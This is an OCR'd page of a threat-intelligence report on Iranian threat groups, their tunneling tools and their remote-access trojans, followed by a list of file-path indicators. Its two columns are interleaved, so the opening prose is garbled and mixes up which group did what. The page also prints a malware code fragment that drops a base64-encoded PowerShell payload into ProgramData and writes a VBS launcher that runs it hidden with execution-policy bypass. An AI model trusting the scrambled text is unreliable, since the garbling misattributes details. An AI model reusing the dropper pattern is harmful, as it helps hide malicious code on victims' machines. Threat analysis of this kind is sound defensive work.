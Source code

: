 CTU researchers observed COBALT MIRAGE61 using ngrok and Fast 

COBALT LYCEUM65 used MilanRAT for DNS tunneling for C2 

Reverse Proxy for tunneling in its ransomware campaign against U.S. 

communication. The group debuted MilanRAT in June 2021 in a 

targets. Third\-party reporting62 also reinforced the extent to which 

campaign against Israeli targets, in which it set up a spoof website 

Iranian groups make use of tunneling tools. Open source tunneling 

impersonating Israel\-based software company Chip PC Technologies. It 

tools employed by COBALT ULSTER were reported to include Chisel, 

used this website in two infection chains that ended in the deployment 

Secure Socket Funneling (SSF), Ligolo and SharpChisel. 

of MilanRAT. This formed part of a pivot towards targeting Israel.

Ngrok has also been used by COBALT FOXGLOVE63 since at least 

2020 in phishing attacks and by COBALT AGORA64\. This latter group 

focuses on organizations in the United Arab Emirates, and in November 

debuted new malware that CTU researchers refer to as G0Dx. G0Dx 

provides basic RAT functionality: file upload, file download, and arbitrary 

command execution via cmd.exe. It communicates with C2 servers via 

HTTP and DNS. 

fh.WriteLine("$data \- \[System.Convert]::FromBase64String("\+"\\"\[BASE 64 ENCODED POWERSHELL PAYLOAD]""\+")");
fh.WriteLine("$decoded \- \[System.Text.Encoding]::UTF8\.GetString($data)");
fh.Writeline("$path \- $env:ALLUSERSPROFILE");
fh.WriteLine("New\-Item \-Path $path"\+"'\\\\Windows'"\+" \-ItemType Directory \> $null");
fh.WriteLine("$decoded \> $path"\+"'\\\\Windows\\\\System.ps1'");
fh.WriteLine("$vbln1\-'set objsh\- CreateObject(\\"WScript.Shell\\")'");
fh.WriteLine("$vbln2\-'obish.run \\"powershell.exe \-exec bypass \-windowstyle hidden \-NonInteractive \-noprofile \-FILE
%programdata%\\\\Windows\\\\System.ps1\\",0, false'");
fh.Writeline("echo $vbln1 \> C:\\\\ProgramData\\\\Windows\\\\runfile.vbs");
fh.WriteLine("echo $vbln2 \>\> C:\\\\ProgramData\\\\Windows\\\\runfile.vbs");
fh.Close();

• C:\\ProgramData\\MsNpENg\\
• C:\\ProgramData\\MsNpENg\\Database.MDF
• C:\\ProgramData\\MsNpENg\\Log
• C:\\ProgramData\\MsNpENg\\Log\\\[a\-z0\-9]{8}d
• C:\\ProgramData\\MsNpENg\\Log\\\[a\-z0\-9]{8}f
• C:\\ProgramData\\MsNpENg\\Log\\\[a\-z0\-9]{8}g
• C:\\ProgramData\\MsNpENg\\Log\\\[a\-z0\-9]{8}s
• C:\\ProgramData\\MsNpENg\\MsNpENg
• C:\\ProgramData\\MsNpENg\\curent.txt

